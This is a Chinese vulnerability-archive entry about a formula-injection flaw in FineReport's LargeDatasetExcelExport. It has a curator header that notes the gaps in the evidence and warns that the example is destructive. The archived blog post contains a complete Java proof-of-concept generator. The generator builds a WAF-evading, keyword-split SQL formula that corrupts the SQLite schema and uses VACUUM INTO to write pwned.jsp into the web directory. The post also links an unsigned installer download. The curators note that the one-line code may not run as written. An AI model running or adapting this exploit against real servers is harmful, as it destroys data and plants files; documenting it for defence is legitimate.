






# FineReport（版本未明） LargeDatasetExcelExport Formula执行SQL 注入te写文件

## 条目说明

- 对象与具体问题：FineReport（版本未明）；LargeDatasetExcelExport Formula执行SQLite写文件
- 版本、配置及部署条件：FRDemo SQLite，特定SDK类；版本不明，sessionID获取仅图片
- 认证与权限前提：需要报表sessionID，如何获得/权限未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 生成器打开PRAGMA writable_schema并DELETE sqlite_schema除sqlite_stat1外记录，严重破坏数据库结构；必须标高风险不作为默认检测
- VACUUM INTO pwned.jsp只复制数据库，本文未展示JSP内容植入前置，不能据文件后缀称执行成功
- Java代码挤一行，//注释可能吞后续语句；未列SDK jar/编译依赖，无法直接复现
- 实际HTTP接口和session获取全图片，只有百度网盘安装包无签名/固定版本，勿执行
- 引用显示URL与实际链接不同，补可追溯原始研究/修复

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

 天黑说嘿话   2026-01-13 07:13  
  
   
  
### 安装环境  
  
安装包：  
  
https://pan.baidu.com/s/1hGxPKnmaScPf8ypjVDwhwQ?pwd=qt2r  
  
不清楚是不是版本问题，网上给出的利用方法和我本地复现不一样  
### sessionID 获取  
  
  
  
  
  
将获取到的sessionID 填入到下面的poc中  
### 生成poc代码  
```
import com.fr.base.Formula;  import com.fr.base.Parameter;  import com.fr.general.xml.GeneralXMLTools;  import com.fr.nx.app.web.handler.export.largeds.bean.LargeDatasetExcelExportJavaScript;  import java.io.UnsupportedEncodingException;  import java.net.URLEncoder;    public class Main {      public static void main(String[] args) {          // 1. 构造复杂的混淆 SQL 公式 (针对 SQLite/VACUUM INTO 漏洞利用)          // 使用 CONCATENATE 拆分敏感关键字绕过 WAF        String sqlPayload = "sql('FRDemo',CONCATENATE(\"pr\",\"agm\",\"a wr\",\"i\",\"t\",\"a\",\"ble\",\"_sch\",\"e\",\"ma=o\",\"n\"),1)" +                  "-sql('FRDemo',CONCATENATE(\"dele\",\"t\",\"e f\",\"r\",\"o\",\"m sq\",\"li\",\"t\",\"e_sc\",\"he\",\"ma w\",\"here\",\" na\",\"m\",\"e!\",\"=\",\"'s\",\"ql\",\"ite\",\"_s\",\"ta\",\"t\",\"1'\"),1)" +                  "-sql('FRDemo',CONCATENATE(\"V\",\"A\",\"C\",\"U\",\"U\",\"M\",\" i\",\"nt\",\"o('\",ENV_HOME,\"/\",\".\",\".\",\"/\",\".\",\"/\",\"pwned\",\".\",\"j\",\"s\",\"p\",\"')\"),1)";            // 2. 构造参数对象，注意：必须显式使用 Formula 对象          Parameter p = new Parameter();          p.setName("c"); // 对应目标中的 name="c"        p.setValue(new Formula(sqlPayload)); // 关键：传入 Formula 对象，XML 才会生成 <O t="Formula">          LargeDatasetExcelExportJavaScript js = new LargeDatasetExcelExportJavaScript();          js.setDsName("1"); // 对应目标中的 dsName="1"        js.setParameters(new Parameter[]{p});            String rawXml = GeneralXMLTools.writeXMLableAsString(js);            String finalXml = wrapInPd(rawXml);          System.out.println("--- 原始 Payload ---");          System.out.println(finalXml);          System.out.println("\n--- URL 编码后的 Params ---");          System.out.println(urlEncode(finalXml));      }        private static String wrapInPd(String xml) {          // 移除 XML 头部声明          String content = xml.replaceFirst("<\\?xml.*?\\?>", "").trim();          // 移除 SDK 自动添加的类路径属性，使其变精简          content = content.replaceAll("class=\".*?\"", "");          content = content.replaceAll("xmlVersion=\".*?\"", "");          // 包装 pd 标签          return "<pd>\n " + content + "\n</pd>";      }        public static String urlEncode(String str) {          try {              return URLEncoder.encode(str, "UTF-8");          } catch (UnsupportedEncodingException e) {              return str;          }      }  }
```  
  
  
### 漏洞复现  
  
  
  
  
  
  
  
  
   
  
#### 参考  
- • [https://mp.weixin.qq.com/s/K9VVCM5ndDlZxIW86CQ_OQ?scene=1&click_id=3](https://mp.weixin.qq.com/s?__biz=MzI5OTUxMjA3OA==&mid=2247483854&idx=1&sn=95812fe7e2e8a012c82949ff4f1318c0&scene=21&click_id=3#wechat_redirect)  
  
  
  
  
   
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
